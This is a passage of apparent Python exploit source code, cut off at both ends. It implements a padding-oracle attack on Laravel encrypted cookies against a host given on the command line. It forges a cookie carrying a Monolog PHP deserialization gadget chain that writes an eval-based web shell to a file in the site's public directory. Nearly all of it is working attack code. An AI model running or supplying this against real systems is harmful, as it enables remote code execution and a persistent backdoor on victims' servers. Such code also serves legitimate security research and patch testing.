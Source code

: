 ```
                return False
            if response.status_code == 200:
                self.cv.insert(0, value ^ (index+1))
                return True
        elif int(re_result[0]) >= LaravelOracle.block_size - index:
            return False
        else:
            self.cv.insert(0, value ^ (index+1))
            return True

    def exploit(self):
        for index in xrange(32):
            self.modify_cookie_iv(index)
            for value in xrange(256):
                if self.guess_cookie_iv_byte(index, value):
                    break
            print(index, hex(self.cv[0]))

        for p_char, cv_char in zip(self.plaintext, self.cv):
            self.iv.append(p_char ^ cv_char)


def main():
    parser = init_parser()
    option, _ = parser.parse_args()
    domain = option.host

    if not domain:
        parser.print_help()
        sys.exit(0)

    domain = domain if domain.startswith('http') else "http://{domain}".format(domain=domain)
    domain = domain if not domain.endswith('/') else domain[:-1]

    cookie = dict()
    cookie['mac'] = 0

    payload = ('''O:29:"Monolog\Handler\BufferHandler":3:{s:10:"\x00*\x00handler";O:29'''
               ''':"Monolog\Handler\StreamHandler":1:{s:6:"\x00*\x00url";s:26:"/var/www/blog/public/x.php";}'''
               '''s:9:"\x00*\x00buffer";a:1:{i:0;a:3:{s:5:"level";i:100;s:7:"message";s:34:"<?php '''
               '''eval(hex2bin($_GET['x']));?>";s:5:"extra";a:0:{}}}s:13:"\x00*\x00bufferSize";i:1;}''')

    padding_payload = LaravelOracle.add_padding(payload)
    payload_block = reversed(struct.unpack("32s"*(len(padding_payload)/32), padding_payload))

    ciphertext = bytearray('0'*32)
    for each_payload_block in payload_block:
        print("[plaintext] {payload_block}".format(payload_block=each_payload_block))
        print("[ciphertext] {ciphertext}".format(ciphertext=base64.b64encode((ciphertext[:32]))))
        LO = LaravelOracle(domain, each_payload_block, ciphertext[:32])
        LO.exploit()
        print("[iv] {iv}".format(iv=base64.b64encode(LO.iv)))
        ciphertext = LO.iv + ciphertext

    cookie['iv'] = ciphertext[:32]
    cookie['value'] = ciphertext[32:]
    cookie['mac'] = 0

    while True:
        send_cookie = LaravelOracle.format_cookie(cookie)
```